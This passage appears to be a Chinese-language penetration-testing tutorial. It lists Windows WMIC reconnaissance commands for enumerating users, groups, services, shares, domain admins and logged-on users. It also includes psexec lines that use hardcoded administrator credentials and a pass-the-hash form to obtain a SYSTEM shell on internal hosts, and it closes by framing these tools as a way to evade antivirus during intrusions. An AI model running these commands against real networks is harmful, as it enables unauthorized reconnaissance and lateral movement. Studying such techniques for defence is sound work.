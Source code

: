 查询当前机器的简要配置信息

```text
# wmic computersystem list brief /format:list
```

查询当前机器的操作系统位数

```text
# wmic cpu get DataWidth /format:list
```

查询当前机器的用户及组信息

```text
# wmic useraccount list brief /format:list
# wmic group list brief /format:list  
```

查询当前机器所有用户的详细信息

```text
# wmic useraccount list brief
```

查询当前机器所有服务的详细状态

```text
# wmic service list brief
```

查询指定域的域管有哪些

```text
# wmic /node:rootkit path win32_groupuser where (groupcomponent="win32_group.name=\"adm\",domain=\"rootkit\"")
```

查看谁登陆过指定机器,适合用来找域管进程

```text
# wmic /node:192.168.3.23 path win32_loggedonuser get antecedent
```

查询本机共享

```text
# wmic share  get name,path,status
```

0x05 使用pstools套件

```text
# psexec /accepteula \\192.168.3.122 -u klionsec\administrator -p "admin!@#123" -s -c -f "cmd.exe"	弹回一个system权限的cmdshell
# psexec /accepteula \\192.168.3.23 -u klionsec\administrator -p lm:ntlm -s -c -f "cmd.exe"		适合03以下的系统 
```

 小结: 这里只简单罗列一些实战经常可能会用到的基础命令,有些命令可能需要在管理权限\[system或root\]下才能运行,还有很多其它的系统命令工具没法一下子跟大家说完,后续咱们再慢慢来,有些命令在之前文章都附带的用过,比较简单,就各种命令工具本身来讲没有任何技术含量,甚至一些工具完全可以自己实现`有时真的没必要重复造轮子,在你没有别人写的好的情况下`,大家可能也发现了,很多实际渗透中的需求,系统自身早就为我们提供好了对应的工具,只是一直没去发掘而已,大可不必拿第三方工具来搞`尤其在有powershell的情况下`,这样也确实省去了不少的麻烦,比如,免杀,防护限制\[上传,执行\],等等...,总之,说了这么多,最终目的还是希望大家能利用这些东西真正帮自己做事情,利用目标已有工具,挖掘出更多高价值信息也是我们最想看到的,只简单的会用个命令,基本是没啥实际用的,能从命令结果探测到更多有价值的信息才是目的,比如,你知道netstat 是用来查目标系统网络连接的,但只知道这又有什么用呢,我们看连接的目的,主要还是想知道,当前系统中都跑了什么高危服务,有没有我们后期可以利用到的,哪些是跟目标内网机器的连接,看看有没有别人的tcp马,找找是那个程序发起的...等等,这里只是举个简单的例子,关于`linux篇`,我们待续...


